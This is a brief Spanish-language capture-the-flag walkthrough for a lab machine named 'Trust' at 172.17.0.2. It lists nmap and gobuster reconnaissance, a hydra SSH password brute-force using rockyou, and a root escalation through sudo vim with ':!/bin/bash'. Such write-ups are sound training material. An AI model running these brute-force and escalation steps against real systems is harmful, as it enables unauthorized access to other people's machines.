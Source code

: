 Maquina: Trust
Autor: El Pinguino de Mario 
Dificultad: Muy Facil

ping 172.17.0.2 -c 1

sudo nmap -p- -sS -sC -sV --min-rate=5000 -n -vvv -Pn 172.17.0.2 -oN puertos

sudo gobuster dir -w /usr/share/wordlist/Seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u 'http://172.17.0.2/' -x .php,.sh,.py,.txt

buscamos en el archivo encontrado y descubrimos el nombre de un usuario
utilizamos hydra para conseguir la contraseña
hydra -l mario -P /usr/share/wordlists/rockyou.txt.gz ssh://172.17.0.2

entramos por ssh con la contraseña encontrada
ssh mario@172.17.0.2

sudo -l
descubrimos que podemos ejecutar el comando vim
sudo -u root /usr/bin/vim
:!/bin/bash
whoami
